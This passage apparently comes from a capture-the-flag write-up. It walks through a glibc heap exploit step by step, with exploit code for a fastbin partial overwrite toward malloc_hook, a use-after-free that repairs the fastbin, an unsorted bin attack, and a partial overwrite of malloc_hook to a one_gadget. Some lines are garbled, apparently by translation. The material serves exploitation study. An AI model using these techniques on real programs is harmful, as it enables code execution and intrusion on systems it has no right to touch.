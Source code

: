 ```
# malloc_hook above
malloc_hook_nearly = "\xed\x1a"
edit(1,malloc_hook_nearly)
info("Partial write, modify fastbin->fd ---> malloc_hook")
```



Then allocate `3` ``xk` of `0x70`, and you can get the `chunk` where `malloc_hook` is located.

 



```
create(0x65,0)
create(0x65,0)
create(0x65,0)
```



Then `free` drop `E`, enter `fastbin`, use `uaf` to set `E->fd = 0`, fix `fastbin`


```
free(15)
edit(15,p64(0x00))
info("Generate 0x71 fastbin again, modify fd =0, fix fastbin")
```



Then an unsorted bin attack, making the value of malloc_hook main_arena+88


 



```
create(0xc8,1)
create(0xc8,1)
create(0x18,2)
create(0xc8,3)
create(0xc8,4)
free(1)
po = "B" * 8
po + = "\x00\x1b"
edit (1, po)
create(0xc8,1)
info("unsorted bin makes malloc_hook have the address of libc")
```



Make the `malloc_hook` address of `one_gadget` by modifying the lower three bytes of `malloc_hook`


 



```
over = "R"*0x13   # padding for malloc_hook
over + = "\xa4\xd2\xaf"
edit(0,over)

info("malloc_hook to one_gadget")
```
